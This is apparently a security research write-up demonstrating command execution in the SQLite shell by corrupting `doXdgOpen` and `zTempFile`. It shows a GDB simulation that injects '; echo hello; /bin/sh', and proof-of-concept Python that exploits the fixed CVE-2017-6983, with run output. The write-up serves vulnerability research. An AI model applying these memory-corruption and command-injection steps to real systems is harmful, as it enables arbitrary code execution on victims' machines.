 # Corrupting `doXdgOpen` to Attack SQLite

We try two methods to corrupt `doXdgOpen` to build attacks against SQLite, one via GDB simulation and another via a real-world vulnerablitiy. The vulnerability has been fixed so it will not cause immediate threat to exsiting SQLite installations.

With these corruptions attackers can execute arbitrary command on victim systems.

## Attack Simulation via GDB

To quickly confirm the feasiblity of building attacks, we use the GDB debugger to simulate an attacker who can write arbitrary value into arbitrary location through common memory safety issues, like buffer overflow or use-after-free.

In particular, we set `doXdgOpen` to `true` and set `zTempFile` to a malicious string `; echo 'hello'; /bin/sh`. When the execution continues, `echo 'hello'` and `/bin/sh` will be executed.

In the first step, we start an SQLite shell.

```bash
$ sqlite3
sqlite>
```

In another terminal, we attach GDB to the SQLite shell process

```bash
$ sudo gdb -p `pgrep sqlite3`  # make sure only one sqlite3 exists
```

Go to the `main` function frame, and update the two members of `ShellState`:

```bash
(gdb) bt                  # Print backtrace of all stack frames. Content may vary
#0  0x00007f3b44e5807b in __pselect (nfds=1, readfds=0x7ffd187094f0, writefds=0x0, exceptfds=0x0, timeout=<optimized out>, sigmask=0x7f3b45173c20 <_rl_orig_sigset>)
	at ../sysdeps/unix/sysv/linux/pselect.c:48
#1  0x00007f3b45153be9 in rl_getc () from /lib/x86_64-linux-gnu/libreadline.so.8
#2  0x00007f3b45154503 in rl_read_key () from /lib/x86_64-linux-gnu/libreadline.so.8
#3  0x00007f3b45139c82 in readline_internal_char () from /lib/x86_64-linux-gnu/libreadline.so.8
#4  0x00007f3b4513a4ed in readline () from /lib/x86_64-linux-gnu/libreadline.so.8
#5  0x0000000000431b88 in one_input_line (in=0x0, zPrior=0x0, isContinuation=0) at shell.c:656
#6  0x00000000004155b2 in process_input (p=0x7ffd187097c8) at shell.c:18343
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
(gdb) frame 7             # select the frame of main, which is #7 here
#7  0x000000000040a5f7 in main (argc=1, argv=0x7ffd1870adc8) at shell.c:19152
19152         rc = process_input(&data);
(gdb) p data.doXdgOpen    # show doXdgOpen before corruption
$1 = 0 '\000'
(gdb) p data.zTempFile    # show zTempFile before corruption
$2 = 0x0
(gdb) set data.doXdgOpen = 1                            # corrupt doXdgOpen
(gdb) set data.zTempFile = "; echo hello; /bin/sh"      # corrupt zTempFile
(gdb) p data.doXdgOpen    # show doXdgOpen after corruption
$3 = 1 '\001'
(gdb) p data.zTempFile    # show zTempFile after corruption
$4 = 0x7f3b44d42990 "; echo hello; /bin/sh"
```

Attack done. Now we can quit GDB.

```bash
(gdb) quit
Quit anyway? (y or n) y
```

Go to the SQLite shell, quit the shell

```bash
sqlite> .exit
sh: 1: xdg-open: not found   #<- reuslt of running "xdg-open "
hello                        #<- result of running "echo 'hello'"
$                            #<- result of runing "/bin/sh"
```

As we can see from the SQLite shell, SQLite executes command `system("xdg-open ; echo 'hello'; /bin/sh")`, which finally creates a terminal for attackers.

## Attack via Real-world (Fixed) Bugs

Attackers can use any memory-safety issues to corrupt `doXdgOpen` and `zTempFile` to achieve arbitrary code execution. These bugs are not rare.

#### 1. Gain arbitrary memory-write primitive

We utilize the following, old vulnerability to construct an attack. More details about this bug is also available via this link.

* [CVE-2017-6983](cve-2017-6983.md) 

#### 2. Compile SQLite

```bash
# in sqlite folder

CC="clang -DSQLITE_DEBUG" ./configure --enable-debug
make
```

#### 3. Proof-of-Concept (PoC)

We exploit the vulnerability twice to corrupt both `p->doXdgOpen` and `p->zTempFile` respectively. We disabled ASLR in this attack, so the address of `p` and faked structures are fixed. The complete PoC can be found in [doXdgOpen-poc.py](./doXdgOpen-poc.py).

Here are a few key steps among this attack

**(1) Corrupt `p->doXdgOpen` to 1**

```py
addr_ShellState = 0x7fffffffcf68		# get this address via GDB
offset_doXdgOpen_ShellState = 0xe

dst_ptr = addr_ShellState + offset_doXdgOpen_ShellState
bad_val = 0x1

# sqlite3_value.zMalloc = dst_ptr       (line 80328 @ sqlite3VdbeMemClearAndResize)
offset_sqlite3_value_zMalloc = 0x28
raddr_sqlite3_value_zMalloc = raddr_sqlite3_value + offset_sqlite3_value_zMalloc
zMalloc_val = dst_ptr
exp = writeVal(exp, raddr_sqlite3_value_zMalloc, zMalloc_val)

# malicious_content = Your-bad-value
exp = writeVal(exp, raddr_malicious_content, bad_val)
```

**(2) Corrupt `p->zTempFile` to `; ls`**

```py
addr_ShellState = 0x7fffffffcf68
offset_doXdgOpen_ShellState = 0xe
offset_zTempFile_ShellState = 0x98

safe_space_offset = 0x400                 # leave the 1st attack untouched
raddr_Fts3Cursor = safe_space_offset      # shift the first allocation

dst_ptr = addr_ShellState + offset_zTempFile_ShellState

# sqlite3_value.zMalloc = dst_ptr       (line 80328 @ sqlite3VdbeMemClearAndResize)
offset_sqlite3_value_zMalloc = 0x28
raddr_sqlite3_value_zMalloc = raddr_sqlite3_value + offset_sqlite3_value_zMalloc
zMalloc_val = dst_ptr
exp = writeVal(exp, raddr_sqlite3_value_zMalloc, zMalloc_val)

# put "; bad-command" after malicious content
raddr_string = raddr_malicious_content + 0x10  # leave the malicious value untouched
exp = writeStr(exp, raddr_string, "--version; ls")

# malicious_content = Your-bad-value
exp = writeVal(exp, raddr_malicious_content, base + raddr_string)

```

**(3) Trigger the bug twice**

```py
with open('/tmp/exp', 'w') as f:
    f.write("create table t1(c1 char);\n")
    f.write("insert into t1 values(x'" + exp + "');\n")
    f.write("create virtual table a using fts3(b);\n")
    f.write("insert into a values(x'" + valToLittleEndianHex(base, 8) + "');\n")
    f.write("select optimize(b) from a;\n")
    f.write("delete from a;\n")
    f.write("insert into a values(x'" + valToLittleEndianHex(base + safe_space_offset, 8) + "');\n")
    f.write("select optimize(b) from a;\n")
    f.write("select sqlite_version();\n")
```

**(4) Attack**

```bash
# clean up sqlite cache
$ rm -rf ~/.sqlite*

# Need to figure out the correct base address and shellstate address
# Check the CVE link above to figure out how

# generate the exploit poc /tmp/exp
$ python3 ./doXdgOpen-poc.py

# exploit within gdb
$ gdb ./sqlite3
gdb-peda$ r < /tmp/exp

Starting program: /home/hong/sqlite-for-viper/sqlite3 < /tmp/exp
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Runtime error near line 5: bad parameter or other API misuse (21)
Runtime error near line 8: bad parameter or other API misuse (21)
3.40.1
[Attaching after Thread 0x7ffff7dee740 (LWP 50258) vfork to child process 50261]
[New inferior 2 (process 50261)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 50258 after child exec]
[Inferior 1 (process 50258) detached]
process 50261 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Attaching after Thread 0x7ffff7fa1740 (LWP 50261) vfork to child process 50263]
[New inferior 3 (process 50263)]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
[Detaching vfork parent process 50261 after child exec]
[Inferior 2 (process 50261) detached]
process 50263 is executing new program: /usr/bin/dash
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
xdg-open 1.1.3
[Inferior 3 (process 50263) exited normally]

++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++
aclocal.m4        ext            lempar.c            manifest.uuid  peda-session-cat.txt        sqlite3           sqlite.pc.in
art               fts5.c         libsqlite3.la       mkkeywordhash  peda-session-dash.txt       sqlite3.1         src
autoconf          fts5.h         libtool             mkso.sh        peda-session-dbus-send.txt  sqlite3.c         test
config.guess      fts5parse.c    LICENSE.md          mksourceid     peda-session-groups.txt     sqlite3ext.h      tool
config.log        fts5parse.h    ltmain.sh           mptest         peda-session-ls.txt         sqlite3.h         tsrc
config.status     fts5parse.out  magic.txt           opcodes.c      peda-session-sqlite3.txt    sqlite3.lo        VERSION
config.sub        fts5parse.sql  main.mk             opcodes.h      peda-session-vim.nox.txt    sqlite3.o         vsixtest
configure         fts5parse.y    Makefile            parse.c        poc.py                      sqlite3.pc
configure.ac      input          Makefile.in         parse.h        poc-simple.py               sqlite3.pc.in
contrib           install-sh     Makefile.linux-gcc  parse.out      README.md                   sqlite3session.h
doc               keywordhash.h  Makefile.msc        parse.sql      shell.c                     sqlite_cfg.h
doXdgOpen-poc.py  lemon          manifest            parse.y        spec.template               sqlite_cfg.h.in
++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++

Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
```

## Tips

### Disable ASLR
```
cat /proc/sys/kernel/randomize_va_space
sudo sysctl kernel.randomize_va_space=0 
```

### Get size of a variable/type
```
print sizeof(val)
print sizeof(Type)
```

### Get offside of a member
```
gdb-peda$ p/x &(((Fts3Table *)0)->db)
```

### Clear cache
`rm ~/.sqlite*`
